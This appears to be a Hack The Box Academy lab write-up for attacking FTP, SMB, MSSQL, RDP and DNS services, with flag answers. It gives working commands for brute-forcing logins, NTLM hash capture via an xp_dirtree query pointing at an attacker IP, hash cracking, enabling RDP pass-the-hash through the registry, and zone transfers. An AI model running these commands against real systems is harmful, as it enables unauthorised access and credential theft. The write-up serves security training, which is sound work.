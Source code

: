 # HTB-Attacking_Common_Services
## Table of Contents
1. [FTP](#ftp)
2. [SMB](#smb)
3. [SQL](#sql)
4. [RDP](#rdp)
5. [DNS](#dns)

### FTP
#### Tools
1. medusa
2. hydra
#### Challenges
1. What port is the FTP service running on?

    We can solve this by using nmap to find ftp port.

    ```bash
    sudo nmap -sV -sC 10.129.55.8 -v
    ```
    ![alt text](Assets/FTP1.png)

    The answer is 2121.

2. What username is available for the FTP server?

    Based on the nmap output, the anonymous login is allowed. So i tried to ftp anonymously.

    ```bash
    ftp 10.129.55.8 2121
    ```
    In there, we can find users.list and passwords.list. After download using `get <file name>`, we can bruteforce by using medusa.
    
    ```bash
    medusa -U users.list -P passwords.list -h 10.129.55.8 -n 2121 -M ftp
    ```
    Another way for the faster result is using `hydra`.

    ```bash
    sudo hydra -L users.list -P passwords.list -t 32 -s 2121 ftp://10.129.55.8
    ```
    Then we will get `robin:7iz4rnckjsduza7` credential. The answer is `robin`.

3. Using the credentials obtained earlier, retrieve the flag.txt file. Submit the contents as your answer.

    By using the credential that we found, we can get the flag. The answer is `HTB{ATT4CK1NG_F7P_53RV1C3}`.

### SMB
#### Tools
1. impacket-psexec
2. CrackMapExec
3. enum4linux-ng
#### Challenges
1. What is the name of the shared folder with READ permissions?

    We can solve this by using `smbmap` with `-H` flag.

    ```bash
    smbmap -H 10.129.55.8
    ```
    The answer is `GGJ`.

2. What is the password for the username "jason"?

    We can bruteforce by using `crackmapexec` to get the password.

    ```bash
    crackmapexec smb 10.129.55.8 -u "jason" -p pws.list --local-auth
    ```
    The answer is `34c8zuNBo91!@28Bszh`.

3. Login as the user "jason" via SSH and find the flag.txt file. Submit the contents as your answer.

    To solve this, we need `id_rsa` from GGJ shares. We can download it by using jason credential.

    ```bash
    smbmap -H 10.129.55.8 -u 'jason' -p '34c8zuNBo91!@28Bszh' --download "GGJ\id_rsa"
    ```
    Ater that, change id_rsa permission (600). Then we can ssh to there.

    ```bash
    ssh -o KexAlgorithms=diffie-hellman-group14-sha256 -o Ciphers=aes256-ctr -i id_rsa jason@10.129.203.6 -v
    ```
    The answer is `HTB{SMB_4TT4CKS_2349872359}`.

## SQL
1. responder
2. mssqlclient
### Challenges
1. What is the password for the "mssqlsvc" user?

    To solve this, first we need to setup responder to capture the hash.

    ```bash
    responder -I tun0
    ```
    Then we run mssqlcient.
    ```bash
    mssqlclient.py -p 1433 htbdbuser@10.129.163.211
    ```
    In there, we can perform this sql query to do hash stealing.
    ```bash
    EXEC master..xp_dirtree '\\10.10.14.16\share\'
    ```

    ![alt text](Assets/SQL1.png)

    The responder will capture the hash. Then we use hashcat to crack it.

    ```bash
    hashcat -m 5600 hash.txt /home/mrwhok/ctf/HTB-Academy/footprinting/rockyou.txt
    ```

    The answer is `princess1`.

2. Enumerate the "flagDB" database and submit a flag as your answer.

    We can login with mssqlclient again by using the credential we just found.

    ```bash
    mssqlclient.py -p 1433 mssqlsvc@10.129.163.211 -windows-auth
    ```
    Then we can examine the database and get the flag. Here the flow of it.

    ```bash
    SQL (WIN-02\mssqlsvc  guest@master)> SELECT name FROM sys.databases;
    name      
    -------   
    master    

    tempdb    

    model     

    msdb      

    hmaildb   

    flagDB    

    SQL (WIN-02\mssqlsvc  guest@master)> use flagDB;
    ENVCHANGE(DATABASE): Old Value: master, New Value: flagDB
    INFO(WIN-02\SQLEXPRESS): Line 1: Changed database context to 'flagDB'.
    SQL (WIN-02\mssqlsvc  WINSRV02\mssqlsvc@flagDB)> SELECT name FROM sys.tables;
    name      
    -------   
    tb_flag   

    SQL (WIN-02\mssqlsvc  WINSRV02\mssqlsvc@flagDB)> SELECT * FROM tb_flag;
    flagvalue                              
    ------------------------------------   
    b'HTB{!_l0v3_#4$#!n9_4nd_r3$p0nd3r}'   

    SQL (WIN-02\mssqlsvc  WINSRV02\mssqlsvc@flagDB)> 
    ```
    The answer is `HTB{!_l0v3_#4$#!n9_4nd_r3$p0nd3r}`.

## RDP
### Tools
1. crowbar 
2. hydra
### Challenges
1. What is the name of the file that was left on the Desktop? (Format example: filename.txt)

    We can solve this by rdp to the target. In here i used `rdesktop`.

    ```bash
    rdesktop -u htb-rdp -p HTBRocks! 10.129.203.13
    ```
    Then we can explore the desktop. The answer is `pentest-notes.txt`.

2. Which registry key needs to be changed to allow Pass-the-Hash with the RDP protocol?

    The answer is `DisableRestrictedAdmin`.

3. Connect via RDP with the Administrator account and submit the flag.txt as you answer.

    In the `pentest-notes.txt`, we can find admin credential with its hash (Administrator:0E14B9D6330BF16C30B1924111104824). Then to do xfreerdp with it, we must add new registry key.

    ```powershell
    reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
    ```
    Then we can connect by using xfreerdp.

    ```bash
    xfreerdp /v:10.129.79.70 /u:Administrator /pth:0E14B9D6330BF16C30B1924111104824
    ```
    The answer is `HTB{RDP_P4$$_Th3_H4$#}`.

## DNS
### Tools
1. fierce
2. subfinder 
3. subbrute
4. gobuster
### Challenges
1. Find all available DNS records for the "inlanefreight.htb" domain on the target name server and submit the flag found as a DNS record as the answer.

    First, we need add `10.129.71.121 inlanefreight.htb` to the `/etc/hosts`. Then i used gobuster to bruteforce.

    ```bash
    gobuster dns -d inlanefreight.htb -w ./names.txt -r 10.129.71.121 -t 500
    ```
    ![alt text](Assets/DNS1.png)

    Then we can try `dig AXFR @10.129.71.121 <gobuster result>`. The correct one is `hr.inlanefreight.htb`. So when we run dig on it, we get the flag. The answer is `HTB{LUIHNFAS2871SJK1259991}`.